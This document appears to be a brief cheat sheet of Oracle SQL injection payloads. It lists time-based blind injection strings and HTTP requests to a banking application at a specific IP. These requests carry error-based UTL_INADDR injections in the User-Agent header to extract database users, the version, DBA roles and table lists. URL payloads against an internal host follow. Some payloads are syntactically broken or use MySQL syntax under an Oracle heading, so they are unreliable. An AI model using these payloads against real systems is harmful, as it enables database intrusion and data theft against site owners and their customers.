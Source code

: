 # Oracle Injection Syntax

The UTL_INADDR package provides a PL/SQL procedures to support internet addressing.It provides an API to retrieve host names and IP addresses of local and remote hosts retrieving host names and IP addresses of remote hosts from PL/SQ It contains two functions which return the server machine name and its IP address. 
When an Web application is being used Oracle Database. there is only possible to perform  SQL Injection PL/SQL Syntax Like **IF condition THEN when_true [ELSE when_false]**
IF (1=1) THEN dbms_lock.sleep(3); ELSE dbms_lock.sleep(0); END IF; END
```
1' and if(1=1, sleep(20), true)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), false)#
1' or if(1=1, sleep(20), true)#
1' and if(1=1, sleep(20), true) -- -
1' or if(1=1, sleep(20), true) -- -
1' and if(1=1, sleep(20), false) -- -
1' or if(1=1, sleep(20), true) -- -
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select user from dual))--+) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```

```
POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select banner from v$version where rownum=1))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select username FROM user_role_privs WHERE granted_role='DBA';))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1

```
```

POST /B001/process.jsp HTTP/1.1
Host: 122.248.119.25
User-Agent: Mozilla/5.0 (utl_inaddr.get_host_address((select owner, table_name FROM all_tables;))--) Gecko/20100101
Firefox/36.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: https://122.248.119.25/B001/banking?fldsegment=EN1
```
```
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT user FROM DUAL) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT * FROM session_privs;(Retrieves Current Privs)) )--
https://10.10.10.13:7001/product.jsp?=info ||UTL_INADDR.GET_HOST_NAME( (SELECT global_name FROM global_name;) )--
```
